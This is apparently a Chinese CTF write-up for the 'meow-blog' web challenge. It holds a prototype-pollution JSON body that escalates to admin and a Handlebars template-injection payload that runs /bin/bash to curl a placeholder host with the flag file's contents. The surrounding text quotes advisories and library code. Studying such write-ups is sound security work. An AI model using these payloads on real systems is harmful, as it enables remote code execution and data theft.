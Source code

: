 ## Web
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

对`allowedProtoMethods`做污染

```JS
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push \"eval('process.binding(\\'spawn_sync\\').spawn({file:\\'/bin/bash\\',args: [\\'/bin/bash\\',\\'-c\\',\\'curl http://x.x.x.x:4041/`cat /flag`\\'],stdio: [{type:\\'pipe\\',readable:!0,writable:!1},{type:\\'pipe\\',readable:!1,writable:!0},{type:\\'pipe\\',readable:!1,writable:!0}]});');\")}}
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
```